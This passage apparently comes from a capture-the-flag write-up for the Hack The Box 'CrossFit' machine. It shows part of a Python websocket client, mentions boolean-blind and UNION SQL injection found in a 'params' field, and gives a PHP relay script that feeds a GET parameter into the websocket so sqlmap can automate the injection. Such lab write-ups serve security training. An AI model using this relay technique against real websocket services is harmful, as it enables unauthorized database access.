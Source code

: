 ```py
            payload = json.dumps({"message": "available", "params": args.params, "token": json_data["token"]})
        print(f"< {payload}")
        await ws.send(payload)
        msg = await ws.recv()
        print(f"> {msg}")


if __name__ == "__main__":
    try:
        if len(sys.argv) == 1:
            parser.print_help()
        else:
            asyncio.get_event_loop().run_until_complete(lets_talk())
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
```

While testing `params` parameter found sql injections.

**Boolean based Blind SQL Injection**

![](screenshots/boolen-blind-sqli.png)

**SQL UNION injection**

![](screenshots/UNION-sqli.png)


## SQL injection

### websocket client mitm server

Creating a php server based websocket client so we can automate sql injetion with sqlmap.

* There is a library **[`textalk/websocket`](https://github.com/Textalk/websocket-php)**, We can use for websockets in php.

Install it in project folder
```php
composer require textalk/websocket
```

Create php script
```php
<?php

require 'vendor/autoload.php';

use WebSocket\Client;

$client = new WebSocket\Client("ws://gym.crossfit.htb/ws/");
$recv_token = $client->receive();
$token = json_decode($recv_token, true)["token"];
$payload = json_encode(array('message' => 'available', 'params' => $_GET['id'], 'token' => $token));
$client->send($payload);
```
